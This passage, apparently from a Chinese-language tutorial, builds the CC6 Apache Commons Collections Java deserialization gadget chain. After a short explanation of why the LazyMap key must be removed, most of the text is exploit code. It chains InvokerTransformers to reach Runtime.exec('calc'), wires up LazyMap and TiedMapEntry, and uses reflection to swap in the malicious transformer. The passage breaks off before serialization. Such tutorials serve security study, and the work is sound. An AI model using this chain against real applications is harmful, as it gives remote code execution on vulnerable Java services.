 ```java
            this.map.put(key, value);
            return value;
        } else {
            return this.map.get(key);
        }
    }
}
```
有个判断，由于第一次没有值，就会放进去，之后再调用就不会进入这个if语句。
想办法在put之后，把key值删了。
最终
```java
package Enterprise.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantFactory;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Class.forName("java.lang.Runtime")),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class,Object[].class},
                        new Object[]{null,new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"calc"}
                )
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap,"feng1");
        Map hashMap = new HashMap();

        hashMap.put(tiedMapEntry,"feng2");
        outerMap.remove("feng1");
        Class c = LazyMap.class;
        Field factoryfield = c.getDeclaredField("factory");
        factoryfield.setAccessible(true);
        factoryfield.set(outerMap,chainedTransformer);
```